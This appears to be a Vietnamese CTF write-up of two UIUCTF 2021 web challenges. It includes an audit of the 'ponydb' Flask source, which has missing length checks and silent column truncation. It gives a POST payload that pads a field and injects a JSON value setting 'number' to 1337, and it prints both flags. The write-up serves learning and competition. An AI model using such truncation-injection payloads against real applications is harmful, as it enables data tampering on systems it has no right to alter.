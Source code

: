 # ================= UIUCTF 2021 =================

### wasmbaby - 50pts  
  
Challenge khá đơn giản vì là warmup, chỉ cần `Ctrl + Shift + I` để ` inspect element` vào phần `Source` để xem source của trang, trong đó có file `index.wasm` và flag nằm ở dưới cùng của file đó.  
  
![img](./imgs/1.png)  
  
Flag: `uiuctf{welcome_to_wasm_e3c3bdd1}`  
  
### ponydb - 112pts  
  
[Source code](https://uiuc.tf/files/727b10ed82902f914153fd781e8711dd/handout.tar.gz?token=eyJ1c2VyX2lkIjoxMDcyLCJ0ZWFtX2lkIjoxNTUsImZpbGVfaWQiOjQ4fQ.YQe3Ng.TjZr4KWts3_vs_a2z9WNw7zmqcc)  
   
File `templates/ponies.html` có nội dung như sau   
```html
<!-- ponies.html -->
...
<body>
		{% if get_flashed_messages() %}<p>Error: {{ get_flashed_messages()[0] }}</p>{% endif %}
		<h1>Ponies</h1>
		{% for pony in ponies %}
		<h2>{{ pony["name"] }}</h2>
		<img height=200 src="{{ pony['image'] }}">
		{% for favorite in pony['favorites'] %}
		<p>Favorite {{ favorite }}: {{ pony['favorites'][favorite] }}</p>
		{% if favorite == 'number' and pony['favorites'][favorite] == 1337 %}
		<p>Favorite flag: {{ flag }}</p>
		{% endif %}
		{% endfor %}
		<p>{{ pony["bio"] }}</p>
		{% endfor %}
		<h1>Add a pony!</h1>
...
```  
ta dễ dàng thấy để có được `flag` thì phải pass được điều kiện ` if favorite == 'number' and pony['favorites'][favorite] == 1337`, lúc này phải phụ thuộc vào `favorites` cho nên tới đây ta audit tiếp xem `favorites` là cái chi???  
  
Từ `ponydb.py` ta thấy dòng code:  
```python3  
...  
cur.execute(f"SELECT * FROM `ponies` WHERE session='{session['id']}'")  
for (name, bio, image, data, _) in cur:
		ponies.append({"name": name, "bio": bio, "image": image, "favorites": json.loads(data)})
...
```  
thì ta nhận ra là `favorites` là một object được load từ chuỗi json nào đó được lấy ra từ database. Nhưng để dễ hiểu hơn thì mình tiến hành debug ở local từ source mà tác giả đã cung cấp.  
![img](./imgs/2.png)  
  
Cột `favorites` là một chuỗi json được tạo ra do lấy từ input của user khi post lên server.  
Và một điều bất thường trong source code `ponydb.py` ở enpoint `/pony` sau khi audit là:  
  
```python3  
...
@app.route('/pony', methods=['POST'])
def add():
	error = None

	name = request.form['name']
	if "'" in name: error = 'Name may not contain single quote'
	if len(name) > 64: error = 'Name too long'

	bio = request.form['bio']
	if "'" in bio: error = 'Bio may not contain single quote'
	if len(bio) > 256: error = 'Bio too long'

	image = request.form['image']
	if "'" in image: error = 'Image URL may not contain single quote'
	if len(image) > 256: error = 'Image URL too long'

	favorite_key = request.form['favorite_key']
	if "'" in favorite_key: error = 'Custom favorite name may not contain single quote'
	if len(favorite_key) > 64: 'Custom favorite name too long'      # Chổ này chỉ check mà không gán error

	favorite_value = request.form['favorite_value']
	if "'" in favorite_value: error = 'Custom favorite may not contain single quote'
	if len(favorite_value) > 64: 'Custom favorite too long'     # Chổ này chỉ check cũng chỉ check cho vui :))))

	word = request.form['word']
	if "'" in word: error = 'Word may not contain single quote'
	if len(word) > len('antidisestablishmentarianism'): error = 'Word too long'

	number = int(request.form['number'])
	if number >= 100: error = "Ponies can't count that high"
	if number < 0: error = "Ponies can't count that low"

	if error: flash(error)
...
```
Không như các param `word, name, bio, image`, 2 param `favorite_key và favorite_value` check length của input chỉ để cho vui mà không gán giá trị lại cho biến `error` khi không thoã điều kiện :))).  
  
Và một điều khá quan trọng nữa ở chổ  
```python3  
config = {
	'host': 'localhost',
	'user': 'root',
	'password': 'REDACTED',
	'database': 'ponydb',
	'sql_mode': 'NO_BACKSLASH_ESCAPES'
}
```
tác giả đã cố tình `override sql_mode` thành `NO_BACKSLASH_ESCAPES` để disable `STRICT_TRANS_TABLES` theo mặc định, nghĩa là khi `chuỗi dữ liệu quá dài` so với `độ dài mặc định ` đã được định nghĩa cho column của table nào đó thay vì trả ra error thì nó sẽ bị `truncate` đi.  
  
Ngoài ra, ta còn biết được cấu trúc của bảng  
```python3
...
try: cursor.execute('CREATE TABLE `ponies` (`name` varchar(64), `bio` varchar(256), '
                    '`image` varchar(256), `favorites` varchar(256), `session` varchar(64))')
...                  
```              
Độ dài chuỗi của cột `favorites` là `256`, chain các điều kiện ở trên lại thì ta có ý tưởng để giải bài này là input một chuỗi ở param `favorite_value` (hoặc có thể dùng param `favorite_key`) có độ dài vượt quá 256 để bị truncate, đồng thời vì ký tự `"` không bị filter, nên ta có thể chèn lại giá trị cho `number` thành `1337` để lấy flag.  
  
Payload:
```txt
name=nhienit&image=imaget&favorite_key=color&favorite_value=redaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaa","number":1337}&word=antidisestablishmentarianis&number=11&bio=123
```  
![img](./imgs/3.png)  
  
Và flag hiện ra XD  
  
![img](./imgs/4.png)    
  
Flag: `uiuctf{My_l33tle_p0ny_5fb234}`  
